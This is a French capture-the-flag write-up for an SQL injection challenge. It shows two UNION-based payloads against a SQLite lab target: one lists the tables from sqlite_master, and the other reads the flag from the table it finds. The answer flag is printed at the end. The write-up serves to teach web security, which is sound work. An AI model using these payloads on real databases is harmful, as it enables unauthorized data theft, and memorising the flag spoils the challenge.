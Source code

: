 # SQL injection 6

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce sixième défi d'injection SQL similaire aux deux défis prédédents, cependant le flag se cache dans une table aillant un nom inconnu. Vous devez trouver un moyen de l'obtenir puis ensuite récupérer le flag. Le mot clé "union" n'est plus filtré, donc vous avez cet embuche en moins. 

Il y a peut-être de l'information qui peut vous aider à résoudre ce défi dans les description de défis précédente. Notez que la colonne où le flag se trouve se nomme toujours "flag".

## Setup

Requirements:
- BurpSuite

# Writeup

Sachant que la base de données est SQLite3, on peut aller chercher le nom des tables comme suit:
`" union select 1,2,name from sqlite_master--`

Par la suite, ayant obtenu le nom de la table, on peut faire:
`" union select 1,2,flag from K953U0Ty4V--`.

Le tour est joué. `FLAG-85a69d633759e668d748eb6fef042ceb`
